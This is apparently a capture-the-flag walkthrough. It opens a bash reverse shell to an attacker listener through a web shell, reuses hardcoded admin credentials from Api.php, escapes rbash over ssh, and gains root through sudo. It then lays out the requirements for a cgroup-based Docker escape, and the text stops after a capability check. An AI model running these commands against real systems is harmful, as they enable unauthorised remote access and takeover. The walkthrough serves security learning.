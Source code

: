 Under "Web Shells" we can execute code, so make a reverse connection with:

```bash
# open a listener on Kali
nc -lnvp 9001
# the payload 
/bin/bash -c 'bash -i >& /dev/tcp/10.8.0.115/9001 0>&1'
```

Enumerating the filesystem the file Api.php has admin login credentials
```bash
if( $_POST["username"] === 'admin' && $_POST["password"] === 'niceWorkHackerm4n' ){
```

From the `www-data` shell we can't use `su`, but we can connect with `ssh`.
```bash
# stabilize the shell
www-data@6b364d3940e6:/$ ssh admin@localhost bash # use bash to avoid rbash
# ssh will give us rbash (restricted), another way to escape from rbash is to update the PATH variable to include bash location
```

```bash
sudo -l
Matching Defaults entries for admin on 6b364d3940e6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on 6b364d3940e6:
    (ALL) ALL
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /usr/bin/nsenter
```

We can elevate privileges to root with no password

```bash
sudo /bin/bash
root@6b364d3940e6:/home/admin# 
```

To escape the docker env and become root on the host machine, we'll utilize the Linux cgroup v1 "notification on release" feature. This requires
1.  Running as root inside the container
2.  The container must be run with the `SYS_ADMIN` Linux capability
3.  The container must lack an AppArmor profile, or otherwise allow the `mount` syscall
4.  The cgroup v1 virtual filesystem must be mounted read-write inside the container

All requirements are satisfied as the `cap_sys_admin` capability is set .

```bash
capsh --print | grep cap_sys_admin

# Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
```
